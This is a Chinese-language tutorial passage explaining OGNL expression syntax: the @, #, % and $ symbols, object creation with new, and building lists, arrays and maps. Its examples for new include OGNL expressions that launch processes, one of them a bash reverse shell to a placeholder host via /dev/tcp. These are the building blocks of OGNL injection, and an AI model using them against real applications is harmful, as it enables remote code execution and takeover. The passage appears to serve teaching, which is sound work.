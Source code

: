 ### `@`获取静态对象、静态方法和静态变量

```
@java.lang.Runtime@getRuntime()				#获取Runtime静态对象的静态方法getRuntime()
@java.lang.System@getProperty("user.dir")
```

### `#`获取非原生类型对象

之前在提到三要素的时候提到过context上下文环境需要一个root对象，但是是通过map结构存储的context，可以put一个新的键值对，但是root对象只有一个，对于非root对象就需要用到#

```
例如
Student student1 = new Student();
Student student2 = new Student();
context.setRoot(student1);
context.put("student2",student2);

#student2.name			设置的根对象是student1，那么ognl对student2的name进行操作的时候就需要用#
```

### `%`符号

`%`符号的用途是在标志的属性为字符串类型时，告诉执行环境%{}里的是OGNL表达式并计算表达式的值

### `$`符号

`$`在配置文件中引用OGNL表达式

### `new`创建实例

```
new java.lang.String("test")
new ProcessBulider(new java.lang.String[]{"open","/System/Applications/Calculator.app"})
new ProcessBuilder(new java.lang.String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"})
```

`{}`和`[]`的用法：

在OGNL中，可以用`{}`或者它的组合来创建列表、数组和map，`[]`可以获取下标元素。

创建list：`{value1,value2...}`

```
{1,3,5}[1]
```

创建数组：`new type[]{value1,value2...}`

```
new int[]{1,3,5}[0]
```

创建map：`#{key:value,key1:value1...}`

```
#{"name":"xiaoming","school":"tsinghua"}["school"]
```
